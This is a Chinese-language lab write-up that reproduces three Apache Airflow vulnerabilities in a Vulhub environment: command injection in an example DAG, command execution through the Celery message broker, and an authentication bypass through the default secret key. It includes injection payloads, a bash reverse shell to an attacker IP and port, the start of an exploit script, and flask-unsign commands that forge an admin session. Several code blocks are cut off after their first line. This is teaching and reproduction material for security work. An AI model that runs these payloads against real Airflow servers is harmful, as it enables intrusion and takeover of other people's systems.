Apache Airflow 示例dag中的命令注入（CVE-2020-11978）
简介
介绍
Airflow 是一个使用 python 语言编写的 data pipeline 调度和监控工作流的平台。Airflow 是通过 DAG（Directed acyclic graph 有向无环图）来管理任务流程的任务调度工具， 不需要知道业务数据的具体内容，设置任务的依赖关系即可实现任务调度。
这个平台拥有和 Hive、Presto、MySQL、HDFS、Postgres 等数据源之间交互的能力，并且提供了钩子（hook）使其拥有很好地扩展性。除了一个命令行界面，该工具还提供了一个基于 Web 的用户界面可以可视化管道的依赖关系、监控进度、触发任务等。
影响版本
Apache Airflow <= 1.10.10
漏洞成因
在其1.10.10版本及以前的示例DAG中存在一处命令注入漏洞，未授权的访问者可以通过这个漏洞在Worker中执行任意命令。
漏洞环境
依次执行如下命令启动airflow 1.10.10：
1 | #初始化数据库 |
在http://your-ip:8080即可查看到相关页面

漏洞复现
1.访问http://your-ip:8080进入airflow管理端，将example_trigger_target_dag前面的Off改为On：

2.进入example_trigger_target_dag页面，点击Trigger DAG，进入到调试页面。

3.在Configuration JSON中输入：
1 | {"message":"'\";touch /tmp/hack;#"} |

4.再点Trigger执行dag
等几秒可以看到执行成功：

5.进入容器查看目录，发现成功创建/tmp/hack文件，漏洞复现成功。
1 | dockercompose exec airflow-worker bash |

6.利用这个漏洞进行反弹shell
攻击机开启nc，监听7777端口

7.在Configuration JSON中输入：
1 | {"message":"'\";bash -i >& /dev/tcp/192.168.86.139/7777 0>&1;#"} |

再点击Trigger执行dag，去查看对应的攻击机nc

成功反弹shell，可以命令执行

Apache Airflow Celery 消息中间件命令执行（CVE-2020-11981）
简介
介绍
Apache Airflow是一款开源的，分布式任务调度框架。
影响版本
Apache Airflow <= 1.10.10
漏洞成因
在其1.10.10版本及以前，如果攻击者控制了Celery的消息中间件（如Redis/RabbitMQ），将可以通过控制消息，在Worker进程中执行任意命令。
漏洞环境
依次执行如下命令启动airflow 1.10.10
1 | #初始化数据库 |
漏洞复现
利用这个漏洞需要控制消息中间件，Vulhub环境中Redis存在未授权访问。通过未授权访问，攻击者可以下发自带的任务airflow.executors.celery_executor.execute_command来执行任意命令，参数为命令执行中所需要的数组。
1.可以使用exploit_airflow_celery.py这个小脚本来执行命令touch /tmp/airflow_celery_success：
1 | pip install redis |
exploit_airflow_celery.py:
1 | import pickle |
2.查看结果：
1 | docker compose logs airflow-worker |

1 | docker compose exec airflow-worker ls -l /tmp |
3.可以看到成功创建了文件airflow_celery_success：

4.修改脚本command，显示信息，如whoami

5.回到服务端查看

Apache Airflow 默认密钥导致的权限绕过（CVE-2020-17526）
简介
介绍
Apache Airflow是python语言编写的一个以编程方式创作、安排和监控工作流程的平台。
除了几个服务器端 python 脚本之外，它还有一个基于Flask编写的Web应用程序，该Web 应用程序 使用Flask 的无状态签名 cookie 来存储和管理成功的身份验证。在安装过程中，可以使用Airflow命令创建用户，在文档中该用户是具有管理员角色的用户。任何后续用户都可以使用Airflow python 脚本从 Web 界面或命令行创建。
影响版本
Airflow<=1.10.13版本
漏洞成因
在其1.10.13版本及以前，即使开启了认证，攻击者也可以通过一个默认密钥来绕过登录，伪造任意用户。
CVE-2020-17526漏洞成因是：
由于使用默认安全密钥对身份验证信息进行签名，导致安全配置错误。当用户登录时，会设置一个名为session的 cookie ，其中包含 json 格式的用户认证信息。json 中名为user_id的密钥标识了登录的用户。此 json 使用在airflow.cfg配置文件中配置的字符串进行签名。在 1.10.15 和 2.0.2 版本之前，此字符串设置为temporary_key。官方文档和安装消息都没有说明更改此密钥。
默认密钥为temporary_key造成的问题：
攻击者可以创建与目标相同版本的本地安装，以管理员身份登录并将会话cookie重播到目标以在远程计算机上以管理员身份登录。
在这种情况下，可以使用工具来解密和识别明文 json 字符串，然后更新user_id参数并将 cookie 重新发送到服务器以模拟指定了user_id的用户。
curl -v url：显示url的整个响应过程
flask-unisign解释：上文提到web程序是基于Flask编写，Flask cookie 是经过签名而不是加密的，因此获得会话 cookie 后，可以尝试暴力破解服务器的密钥。
漏洞环境
执行如下命令启动一个Apache Airflow 1.10.10服务器：
1 | #初始化数据库 |
服务器启动后，访问http://your-ip:8080即可查看到登录页面。

漏洞复现
1.访问登录页面，服务器会返回一个签名后的Cookie：
1 | curl -v http://localhost:8080/admin/airflow/login |

2.使用flask-unsign这个工具来爆破签名时使用的SECRET_KEY
安装flask-unsign工具
1 | pip3 install flask-unsign[wordlist] |
1 | flask-unsign -u -c eyJjc3JmX3Rva2VuIjoiNDM4MWFiODkzOGRmZjBkZWJlN2I4M2IzZThkZTU4YjQ5M2I3NTdmNCJ9.ZUhW-g.UME26lFEoeK_HgZ2oyKwxfuPlk0 |

成功爆破出Key是temporary_key。使用这个key生成一个新的session，其中伪造user_id为1：
1 | flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}" |

在浏览器中使用这个新生成的session，可见已成功登录：

漏洞防御
CVE-2020-17526 在版本 1.10.15 和 2.0.2 中通过删除静态字符串并添加b64encode(os.urandom(16)).decode(‘utf-8’)以生成随机字符串作为密钥进行修复Web 应用程序服务器将用于身份验证。此外，如果发现密钥是临时键，则将以下代码添加到 webserver 命令模块以关闭服务器。
1 | if conf.get('webserver', 'secret_key') == 'temporary_key': |